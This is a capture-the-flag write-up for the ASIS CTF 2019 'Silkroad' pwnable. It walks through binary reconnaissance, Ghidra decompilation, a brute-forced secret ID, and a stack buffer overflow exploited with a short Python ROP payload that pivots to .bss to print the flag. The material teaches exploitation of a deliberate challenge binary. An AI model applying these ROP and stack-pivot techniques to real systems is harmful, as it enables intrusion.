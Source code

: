 
# Silkroad

This is a fairly low-point pwnable challenge for ASIS CTF 2019, a rather difficult CTF sponsored by Sharif University and, I think, the Iranian Nuclear Energy Commission. The problem was quite interesting, and I enjoyed solving it. I did not have time during the CTF to start this write-up, so I am playing catch-up several months later.

### Reconnaissance

Here are the results of `file` and `checksec`:

```
silkroad.elf: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, BuildID[sha1]=7f500758d8c87a97befe1bf9e71a1cc3a834de25, stripped
```

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   silkroad.elf
```

Here is some interesting information from `strings`:

```
/lib64/ld-linux-x86-64.so.2
libc.so.6
strcpy
srand
strncmp
__isoc99_scanf
puts
time
putchar
stdin
printf
strtol
fgets
strlen
read
stdout
malloc
strcat
open
setvbuf
__libc_start_main
free
__fxstat
GLIBC_2.7
GLIBC_2.2.5
__gmon_start__
...
Silkroad admin token not found!
DreadPirateRoberts
FBI detected Silkroad, enter the commadns to delete evidince and run Silkroad!
Not Silkroad admin!
        Welcome to Silk Road!
                     ,,__
           ..  ..   / o._)                   .---.
          /--`/--\  \-`||        .----.    .`     `.
         /        \_/ / |      .`      `..`         `-.
       .`\  \__\  __.`.`     .`          i-._
         )\ |  )\ |      _.`
        // \\ // \\
       ||_  \\|_  \\_
       `--` `--`` `--`
Hello, guest!
Enter your secret ID:
The secret ID is not correct!
Enter your nick:
```

So that seems to indicate some interesting characteristics of the program. I'm writing this time with the benefit of hindsight of course, but just looking at this information I would probably have figured out that there might be a buffer overflow vulnerability (presence of `fgets` and no stack canary); that I might need to figure out some secret ID or nickname, and that `DreadPirateRoberts` is probably a useful string. There's no call to `system` or `/bin/sh` sitting in the code, but there's also no PIE, so maybe I can use `printf` to leak a GOT address. That's already a lot of information. Let's look at the code.

Well, first of all, after the user gets greeted, there's a function that I'll call `check_secret_id` that gets called, and the user is allowed to enter a string with only nine characters that's passed in as a parameter to `check_secret_id`. There's no buffer overflow vulnerability with reading in those nine characters. The actual `check_secret_id` function is kind of involved, so let's look at it with Ghidra. Along the way I just want to point out that, analyzing this binary with Ghidra, I noticed a function that I'll call `print_flag`, which is in the code but doesn't get called directly. It takes in a pointer to an array of pointers to strings, and prints out each of the strings:

```
void print_flag(long lParm1)

{
  int local_c;

  local_c = 0;
  while (**(char **)(lParm1 + (long)local_c * 8) != 0) {
    printf("\t%s\n",*(undefined8 *)(lParm1 + (long)local_c * 8));
    local_c = local_c + 1;
  }
  return;
}
```

So that looks useful, maybe I would have a reason for jumping to that later.

Back to `check_secret_id`, here's the decompiled C code in Ghidra, and I've replaced some strings to aid readability:

```
undefined8 test_secret_number(char *pcParm1)

{
  int iVar1;
  int iVar2;
  int n;
  long lVar3;
  size_t integer_length;
  size_t sVar4;
  size_t sVar5;
  size_t sVar6;
  int dcba;
  int ihgf;

  lVar3 = strtol(pcParm1,(char **)0x0,10);
  n = (int)lVar3;
  integer_length = strlen(pcParm1);
  if ((SUB168((ZEXT816(0) << 0x40 | ZEXT816((ulong)(long)n)) % ZEXT816(integer_length + 2),0) == 0)
     && (pcParm1[4] == '1')) {
    ihgf = n / 100000;
    dcba = n % 10000;
    if ((((dcba % 100) / 10 + (dcba / 1000) * 10) - ((ihgf / 1000) * 10 + ihgf % 10) == 1) &&
       (((ihgf / 100) % 10) * 10 + (ihgf / 10) % 10 +
        ((dcba % 1000) / 100 + ((dcba % 100) / 10) * 10) * -2 == 8)) {
      iVar1 = (ihgf % 10) * 10 + (ihgf / 100) % 10;
      iVar2 = ((dcba / 100) % 10) * 10 + dcba % 10;
      if ((iVar1 / iVar2 == 3) && (iVar1 % iVar2 == 0)) {
        sVar4 = strlen(pcParm1);
        sVar5 = strlen(pcParm1);
        sVar6 = strlen(pcParm1);
        if ((long)(n % (ihgf * dcba)) == (sVar6 + 2) * (sVar4 + 2) * (sVar5 + 2) + 6) {
          return 1;
        }
      }
    }
  }
  return 0;
}
```

That's a lot easier to understand than the assembly language. The assignment of `sVar4`, `sVar5`, and `sVar6` looks a little fishy, but the pseudocode checks out with the assembly language. In any case, the nine-digit string gets converted to a long, then the long is subjected to a set of constraints and if all of them are satisfied, `1` gets returned to the caller function (which of course is the desired outcome).

At first I thought that a nine-digit number would constitute too many possibilities to find the desired number via brute force. I considered working with a constraint solver, but then I just wrote a program to count from zero to `10^10` and found that it did not take as long as I expected. So I just used a brute force approach to calculate the desired key. [Here's](./get_secret_number.py) the code to get it. After a couple of minutes, the code returns `790317143`.

Next, the program asks the user for their "nickname" and checks if it's `DreadPirateRoberts!` followed by `0x7a69`. That's simple enough. If the nickname is correct, a vulnerable function gets called:

![./vulnerable_function.png](./vulnerable_function.png)

Here, `0x80` bytes get read into a buffer of size `0x40`. (Of course, I'd seen that during the initial reconnaissance before going to the trouble of determining the nine-digit secret key.) The rest is a ROP, and I've got essentially 64 bytes to work with. I found it useful to read information to the `.bss` section, then pivot there to continue the ROP chain so that it could be an arbitrary length.

Here's the first payload:
```
# Fill the initial buffer (64 bytes long)
payload = ""
for i in range(8):
	payload += chr(0x41+i)*8
payload += p64(NEW_RBP)
payload += p64(0x4017ce) # Puts 0x1ed60 in rdx for example
payload += p64(POP_RSI)
payload += p64(BSS_ROOT) # where I'm reading into
payload += p64(0x0)
payload += p64(POP_RDI)
payload += p64(0x0) # Read from stdin
payload += p64(CALL_READ_ADDR)
payload += p64(RET_ADDR)
payload += "\n"
p.send(payload)
```

One challenge was that in order to write a large payload to the `.bss` section, I needed a large integer in register `rdx` at the time that I jumped to the call to `_read` (as `rdx` stores the maximum number of bytes to read), and there was no gadget to simply pop `rdx`. I found that the function at `0x4017ce`, which checks the nickname entered by the user, will place a heap address in `rdx` as part of freeing a block of memory when the nickname is wrong, and that address remains in `rdx` when the function terminates. That was a satisfying trick to make the call to `_read` work. I was just able to fit that call to `read` into 64 bytes.

Once I pivot to the `.bss` section, my next goal is to call a section of code that will print the flag. The function at `0x4017ce` attempts to read a file located at `./Silkroad/790317143` (where `790317143` is really specified by an input parameter that's a pointer to the secret key entered by the user) and then prints the contents of that file with a `puts` command. So, I need to store the number `790317143` in the `.bss` section as an input string, pop it into `rdi`, then call the function at `0x4017ce` in order to print the flag. (I set up such a file with a fake flag locally for testing purposes.)

I didn't save a screenshot of the flag at the time of the competition, but oh well. [Here's](./exploit-silkroad.py) the exploit code.

### Comparison to other approaches

[Ian Klatzco](https://klatz.co/ctf-blog/asisctf-silkroad) writes a C harness that repeatedly throws inputs at assembly language taken from the `silkroad.elf` binary to check whether an integer is the secret key. His idea is to produce code that runs faster than the native Python, and in the end he's able to get the secret key in less than a minute. [EmpireCTF](https://github.com/EmpireCTF/empirectf/blob/master/writeups/2019-04-20-ASIS-CTF-Quals/README.md#83-pwn--silk-road-i) was able to get a shell with the 64 bytes allowed. They appear to know the `libc` version running on the server, even though that wasn't provided with the problem. I think they may have [fingerprinted](https://libc.blukat.me/) the `libc` version on the server by leaking addresses from the Global Offset Table, but that's not in the write-up. I'm sure my approach was not the intended solution because of the trick needed to leak `rdx`, but it was fun to figure out!
